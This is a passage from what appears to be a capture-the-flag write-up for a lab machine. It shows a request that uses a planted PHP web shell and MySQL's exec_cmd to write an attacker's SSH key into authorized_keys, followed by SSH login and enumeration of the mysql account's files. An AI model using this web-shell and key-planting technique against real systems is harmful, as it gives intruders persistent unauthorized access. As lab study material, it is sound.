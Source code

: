 `GET /shop/vqmod/xml/cantfindmyshell.php?var=mysql+-u+root+-pchangethis+-v+-e+"select+exec_cmd('echo+ecdsa-sha2-nistp256+AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLNqKR/rHfuv30j7eOmU85z%2bEKhPfUFtn9WEARBZzwF6LFTCgjZzqAF0GevT3b22Z5iqwETgfF%2bQcmjAw3Ld9VY%3d+>>+~/.ssh/authorized_keys')"+mysql HTTP/1.1`

## Initial Foothold

### Enumeration as `mysql`

```text
┌──(zweilos㉿kali)-[~/htb/compromised]
└─$ ssh mysql@10.10.10.207 -i compromised.key                                                     130 ⨯
Last login: Thu Sep  3 11:52:44 2020 from 10.10.14.2
mysql@compromised:~$ id && hostname
uid=111(mysql) gid=113(mysql) groups=113(mysql)
compromised
mysql@compromised:~$ ls -la
total 189280
drwx------  9 mysql mysql     4096 Dec 25 05:48 .
drwxr-xr-x 43 root  root      4096 May 24  2020 ..
-rw-r-----  1 mysql mysql       56 May  8  2020 auto.cnf
lrwxrwxrwx  1 root  root         9 May  9  2020 .bash_history -> /dev/null
-rw-------  1 mysql mysql     1680 May  8  2020 ca-key.pem
-rw-r--r--  1 mysql mysql     1112 May  8  2020 ca.pem
-rw-r--r--  1 mysql mysql     1112 May  8  2020 client-cert.pem
-rw-------  1 mysql mysql     1676 May  8  2020 client-key.pem
-rw-r--r--  1 root  root         0 May  8  2020 debian-5.7.flag
drwxr-x---  2 mysql mysql    12288 May 28  2020 ecom
drwx------  3 mysql mysql     4096 May  9  2020 .gnupg
-rw-r-----  1 mysql mysql      527 Sep 12 19:57 ib_buffer_pool
-rw-r-----  1 mysql mysql 79691776 Dec 25 05:48 ibdata1
-rw-r-----  1 mysql mysql 50331648 Dec 25 05:48 ib_logfile0
-rw-r-----  1 mysql mysql 50331648 May 27  2020 ib_logfile1
-rw-r-----  1 mysql mysql 12582912 Dec 27 16:47 ibtmp1
drwxrwxr-x  3 mysql mysql     4096 May  9  2020 .local
drwxr-x---  2 mysql mysql     4096 May  8  2020 mysql
lrwxrwxrwx  1 root  root         9 May 13  2020 .mysql_history -> /dev/null
drwxr-x---  2 mysql mysql     4096 May  8  2020 performance_schema
-rw-------  1 mysql mysql     1680 May  8  2020 private_key.pem
-rw-r--r--  1 mysql mysql      452 May  8  2020 public_key.pem
-rw-r--r--  1 mysql mysql     1112 May  8  2020 server-cert.pem
-rw-------  1 mysql mysql     1680 May  8  2020 server-key.pem
drwxrwxr-x  2 mysql mysql     4096 Sep  3 11:52 .ssh
-r--r-----  1 root  mysql   787180 May 13  2020 strace-log.dat
drwxr-x---  2 mysql mysql    12288 May  8  2020 sys
mysql@compromised:~$ pwd
/var/lib/mysql
mysql@compromised:~$ cat /home/mysql/user.txt
cat: /home/mysql/user.txt: No such file or directory
mysql@compromised:~$ cd /home
mysql@compromised:/home$ ls -la
total 12
drwxr-xr-x  3 root root     4096 May 13  2020 .
drwxr-xr-x 24 root root     4096 Sep  9 12:02 ..
drwxr-x---  2 root sysadmin 4096 Aug 31 03:16 sysadmin
```
